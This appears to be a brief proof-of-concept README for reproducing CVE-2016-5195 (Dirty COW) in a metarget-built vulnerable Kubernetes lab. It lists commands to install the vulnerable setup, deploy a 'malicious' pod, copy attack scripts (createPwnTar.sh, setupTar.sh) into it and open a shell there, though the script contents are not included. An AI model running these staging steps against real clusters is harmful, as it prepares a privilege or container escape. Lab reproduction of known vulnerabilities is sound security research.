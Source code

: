 # Proof of Concept


prepare the environemnt using the following command in metarget's folder : ./metarget cnv install cve-2016-5195

Prepare the malicious Pod using the following command : 
kubectl apply -f link

copy the malicious scripts in the pod and exec in it
sudo kubectl cp createPwnTar.sh ubuntu:/createPwnTar.sh
sudo kubectl cp setupTar.sh ubuntu:/setupTar.sh
kubectl exec -it ubuntu -- /bin/bash

